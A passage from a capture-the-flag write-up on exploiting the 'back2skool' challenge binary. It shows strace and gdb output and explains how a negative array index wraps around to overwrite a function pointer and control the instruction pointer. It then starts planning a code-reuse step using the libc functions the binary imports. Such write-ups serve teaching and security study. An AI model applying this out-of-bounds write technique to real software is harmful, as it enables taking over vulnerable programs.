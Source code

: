 Meanwhile, back at the castle.

	$ strace -f ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f
	[...]
	[pid  4710] recv(4, "\n", 1, 0)         = 1
	[pid  4710] send(4, "Value at position -2147483634: 2"..., 41, 0) = 41
	[pid  4710] read(4, "m", 1)             = 1
	[pid  4710] read(4, "a", 1)             = 1
	[pid  4710] read(4, "t", 1)             = 1
	[pid  4710] read(4, "h", 1)             = 1
	[pid  4710] read(4, "\r", 1)            = 1
	[pid  4710] read(4, "\n", 1)            = 1
	[pid  4710] --- SIGSEGV (Segmentation fault) @ 0 (0) ---
	Process 4710 detached
	$

OK, we've got our segmentation fault. Let's see what was the last instruction pointer.

	$ gdb ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f /home/back2skool/core 
	[...]
	Core was generated by `./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f'.
	Program terminated with signal 11, Segmentation fault.
	#0  0x11111111 in ?? ()
	(gdb) 

Neat! But what are those numbers? We wrote at position **-2147483634** value **286331153**. The second number is the instruction pointer at which we want to jump with the `math` function. The first number is computed as follows
* the base of our buffer (values) is at a fixed address 0x804c040
* the address at which we want to write is 0x804c078
* we need to write at position values+0x38
* giving a positive index (0x38/4) will give an upper bound error
* the negative index is -(2^31 - (0x38/4)) == **-2147483634**
* you can test this by computing 2^33 + 0x804c040-4\*(2^31 - (0x38/4)) - because of the way the buffer is addressed (4 bytes values, [scaled addressing](http://en.wikipedia.org/wiki/Addressing_mode#Scaled)) the overflow is ignored and the index value *wraps* around. We need to do *wrap* around only when we try to access a value above the base address of the vector.

The instruction pointer is the value that we wrote, 0x11111111 in decimal is **286331153**, so we've managed to modify the flow of the program by doing a write, and we've managed to do so in a predictable way.

##Second PoC
We are in the following state: we've managed to make our program to jump at any location. But **where** to jump? Because we don't have any possibility of injecting code, we should rely on the available code. Available code means, our code and the dynamic libraries code which are mapped in our address space.

Let's inspect again our binary to see what is used from shared libraries.

	$ nm -D -u ./back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f 
	         w __gmon_start__
	         U __libc_start_main U __stack_chk_fail U accept U atoi U bind
	         U chdir U close U err U exit U fork U free U getpwnam U htonl
	         U htons U listen U perror U read U recv U send U setgid
	         U setgroups U setsockopt U setuid U signal U socket U vasprintf
	$ 


[original binary]: res/back2skool-3fbcd46db37c50ad52675294f566790c777b9d1f "Vulnerable binary"
[Ghost in the Shellcode]: http://ghostintheshellcode.com/ "Ghost in the Shellcode CTF"